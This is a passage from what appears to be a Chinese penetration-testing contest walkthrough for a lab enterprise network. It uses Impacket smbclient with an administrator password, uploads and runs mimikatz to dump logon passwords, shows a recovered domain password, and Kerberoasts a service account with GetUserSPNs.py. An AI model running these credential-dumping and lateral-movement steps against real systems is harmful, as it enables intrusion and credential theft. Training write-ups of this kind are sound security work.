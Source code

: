 `C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 smbclient.py ./administrator:jason@123@192.168.51.33 
```

上传mimikatz，抓主机密码（C:\Users\Administrator\Desktop\工具\内网渗透\读取密码\mimikatz\x64）

```sh
use c$
put C:\Users\Administrator\Desktop\工具\内网渗透\读取密码\mimikatz\x64\mimikatz.exe
```

![image-20220528125740000000-1656056157769408.png](img/中小型企业环境网络安全渗透赛 local/a8d4d12d2f461edec7283f3e426b9454.png)

继续使用psexec执行以下命令，读取主机密码

```sh
C:\mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords"" exit
```

![image-20220528125758000000-1656056159392216.png](img/中小型企业环境网络安全渗透赛 local/69fcea7c01dce6bc59d1939c9c7acfd8.png)

获取域用户的用户名密码

```
         * Username : jason
         * Domain   : BJ
         * Password : jason@123
```

##### 任务13：获取域服务账户（T1078-利用有效账户凭据、T1110-暴力破解）

通过GetUserSPNs.py脚本查找和获取与普通用户帐户关联的服务主体名称，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 GetUserSPNs.py -dc-ip 192.168.100.50 -request bj.jyj.com/jason:jason@123
```

![image-20220528120726000000-1656056161153058.png](img/中小型企业环境网络安全渗透赛 local/753bc0e9b4fdf086a1d18d69f4e68b41.png)

发现服务账户为test

注意：如果发现提示`[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`错误，则说明域控时间与本机时间差异过大，由于我们在上述操作中使用**psexec**与192.168.51.33主机建立连接，则在该终端中查询域控的时间

查看时区，把win10攻击机改成相同时区。

```
tzutil /g
```

![image-20220531110436000000-1656056162823170.png](img/中小型企业环境网络安全渗透赛 local/3f119602e4fcadbdae5a85ef2cfe6b98.png)

调整时区，打开cmd输入：

```
tzutil /s "Pacific Standard Time"
#Pacific Standard Time为tzutil /g查出的时区
```
